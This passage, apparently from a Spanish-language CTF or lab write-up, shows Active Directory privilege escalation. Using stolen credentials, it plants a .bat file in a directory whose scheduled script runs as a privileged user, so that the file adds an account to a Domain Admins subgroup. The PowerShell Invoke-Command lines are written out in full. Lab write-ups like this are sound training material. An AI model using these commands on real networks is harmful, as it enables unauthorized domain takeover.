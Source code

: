 Al verificar el grupo "Site\_Admin", comprobamos que aparece un comentario sobre dicho grupo mencionando que este grupo solamente se utiliza en casos de emergencia y forma parte del grupo "Domain Admins".

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { net group Site_Admin /domain }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3058_vmware_CuVsbjtndh.png" alt=""><figcaption></figcaption></figure>

Por lo tanto, nos encontramos con el siguiente escenario:

* Lois, tiene permisos para modificar la membresía de grupos sobre usuarios.
* El script 'keepmeon.bat' es ejecutado por el usuario Lois cada 5 minutos
* Este script itera por cualquier archivo que acabe en extensión .bat en el directorio actual.
* Disponemos de las credenciales del usuario 'Awallace'.

Con este escenario presente, la idea será crear un archivo .bat que trate de añadir al usuario _**awallace**_ al grupo _**Site\_Admin**_, este script .bat se ejecutará cada 5 minutos por el usuario _**Lois**_ que tiene permisos para añadirnos a grupos.

Por lo tanto, si todo es correcto y funciona al ejecutarse ese script automatizado, Lois nos añadirá al grupo mencionado teniendo acceso completo al Domain Admins.

El primer paso será crear el archivo .bat que nos añada al grupo mencionado.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { Set-Content -Path C:\Progra~1\keepmeon\pwn3d.bat -Value 'net group Site_Admin awallace /domain /add' }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { Get-Content C:\Progra~1\keepmeon\pwn3d.bat }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3059_vmware_yjhN2wZcNh.png" alt=""><figcaption></figcaption></figure>
